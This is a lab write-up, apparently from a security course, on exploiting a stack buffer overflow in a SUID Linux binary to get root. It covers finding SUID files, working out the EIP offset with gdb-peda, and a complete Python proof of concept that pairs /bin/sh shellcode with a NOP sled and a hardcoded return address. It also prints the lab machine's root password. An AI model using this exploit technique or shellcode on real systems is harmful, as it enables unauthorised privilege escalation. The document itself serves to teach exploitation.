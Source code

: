 # Tasks

## Task 1: Connect to the compromised machine and identify interesting binaries

Using bash or any other scripting language, you might want to examine the file system in order to quickly locate interesting binaries. Be reminded that vulnerable SUID binaries can result in privilege escalation. The _ltrace_ tool may help you perform an initial investigation of any interesting binaries.

## Task 2: Identify the buffer overflow vulnerability

Examine the identified SUID binary. Try to experiment with the data it processes. Can you overflow the buffer? Focus on the arguments...

## Task 3: Find the proper offset to achieve a precise EIP overwrite

Find the proper payload length to achieve a precise EIP overwrite. Gdb-peda's **pattern create** and **pattern offset** commands can help you with that.

## Task 4: Complete the exploit with shellcode and spawn a root shell

Implement shellcode into your exploit and spawn a root shell. You can use the shellcode provided in the same directory as target binary.

**Notes**:

1.  The created exploit may not work outside the debugger. Leverage the created core file to debug and investigate the area around the ESP register. Maybe the location where you landed needs to be re-adjusted inside the exploit...
    
2.  The target binary should be fed with the payload as follows.
    

```
./target_binary `python exploit_name.py`
```

You will notice that no core file is being created. This can be fixed, as follows.

```bash
rm core #To remove any previous core file, created by another "feeding" method
su root #Password: XDEVS1111bnm
echo "core" > /proc/sys/kernel/core_pattern
exit
```

Now ``./target_binary `python exploit_name.py` `` will result in a core file being created.

-------------------------------------------

# Lab Part
Finding target: `find / -perm -u=s -type f 2>/dev/null`

![image1.png](image1.png)

We can see there is an interesting file `/home/xdev/Desktop/.lab/unknown`

Let's get into the file and explore what we can exploit

![image2.png](image2.png)

As we can see, `unknown` is a linux execution file. Note that in the task guide, we can run the file with this syntax:
- ```./target_binary $(python exploit_name.py)```

In `shellcode.py` we have a string contain hex value

```python
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
```

Now, let's debugging the `ELF` file.

![image3.png](image3.png)

When we run it, the program is immediately crashed.
- To get more function's information, use `info functions`

![image4.png](image4.png)

- In here, we found there are 4 functions called in the code and others are machine's library

Make a pattern create: 

- `pattern create 500 1.txt` 

Execute the pattern to get offset:

- `r $(cat 1.txt)`

![image5.png](image5.png)

Using `pattern offset` to get the position of **0x5a254177**, and we have 390.

Override the **EIP**: `python -c "print('A'*390+'B'*4)"`

![image6.png](image6.png)

Find the start of the buffer: `x/200wx $esp-0x200`

![image7.png](image7.png)

- Now we know the start of the buffer is `0xbffff2a6`

## Proof of Concept

```python
offset = 390  
buf = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68" \  
      "\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89" \  
      "\xc2\xb0\x0b\xcd\x80"  
  
payload = ''  
payload += '\x90'*90  
payload += buf  
payload += 'A'*(offset - 90 - len(buf))  
payload += '\xf0\xf2\xff\xbf'  
  
print(payload)
```

![image8.png](image8.png)

The lab is pwned!
